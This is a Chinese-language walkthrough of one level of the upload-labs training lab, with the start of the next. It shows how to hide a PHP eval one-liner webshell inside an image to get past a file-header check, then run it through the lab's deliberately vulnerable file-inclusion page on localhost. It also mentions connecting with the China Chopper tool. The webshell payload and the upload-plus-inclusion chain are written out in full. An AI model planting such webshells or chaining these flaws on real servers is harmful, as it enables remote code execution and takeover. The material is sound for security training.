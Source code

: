 ```php

```

本关卡通过检测上传文件的文件头来判断文件类型，只允许图片文件上传，因此可以**制作图片一句话来上传，之后再利用提示中的文件包含漏洞进行操作。**

制作图片一句话

![](https://gitee.com/YatJay/image/raw/master/img/202202241135202.png)

上传图片一句话成功

![](https://gitee.com/YatJay/image/raw/master/img/202202241136072.png)

查看提示中的文件包含漏洞情况

```php
 <?php
/*
本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
*/
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
?> 
```

上述代码说明，只要使用GET方法提交名为file的参数，那么就会将该参数值包含，并作为PHP脚本来进行解析，因此我们使用GET方法提交参数值为上传文件的路径，文件路径可以右键网页中显示的图片来获得

![](https://gitee.com/YatJay/image/raw/master/img/202202241542729.png)

GET提交参数即`http://localhost/PenTest/uploadlabs/include.php?file=upload/9820220224033548.jpg`，可见该图片文件会被当做PHP脚本来解析

![](https://gitee.com/YatJay/image/raw/master/img/202202241535998.png)

我们写的一句话内容是`<?php @eval($_POST['shell']);?>`，所以使用POST方法提交名为shell的参数来执行

POST提交`shell=phpinfo();`可以成功执行如下，或者也可使用中国菜刀连接webshell

<img src="https://gitee.com/YatJay/image/raw/master/img/202202241538493.png" style="zoom:80%;" />



### Pass-15(突破getimagesize)

#### getimagesize()函数

getimagesize() 函数用于获取图像大小及相关信息，成功返回一个数组，失败则返回 FALSE 并产生一条 E_WARNING 级的错误信息。

**函数的机制决定了其只接收图像文件并获取图像信息，相当于限制了文件类型。**

因此如果只能上传图像，就只能配合其他漏洞如文件解析、文件包含来对脚本加以利用，否则就无从利用图像来触发脚本语句。
